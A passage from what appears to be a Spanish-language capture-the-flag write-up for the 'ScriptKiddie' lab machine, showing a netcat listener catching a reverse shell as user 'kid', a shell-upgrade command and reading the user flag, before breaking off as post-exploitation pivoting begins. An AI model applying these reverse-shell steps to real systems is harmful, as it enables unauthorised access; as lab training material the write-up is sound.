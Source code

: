 * Resultado:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.226] 48542
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ whoami
whoami
kid
kid@scriptkiddie:~/html$
```

* Ya solo busca la flag:
```bash
kid@scriptkiddie:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
kid@scriptkiddie:~$
kid@scriptkiddie:~/html$ cd /home
cd /home
kid@scriptkiddie:/home$ ls
ls
kid
pwn
kid@scriptkiddie:/home$ cd kid  
cd kid
kid@scriptkiddie:~$ ls
ls
html
logs
snap
user.txt
kid@scriptkiddie:~$ cat user.txt
cat user.txt
```
Ahora, veamos como obtener acceso como **Root**.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Maquina">Enumeración de Usuario Kid y Analizando Script app.py</h2>

Esto va a estar un poco complicado de entender, pues lo que haremos será **Pivoting**. Pero primero, analicemos que hay dentro del usuario **Kid**.

**IMPORTANTE**
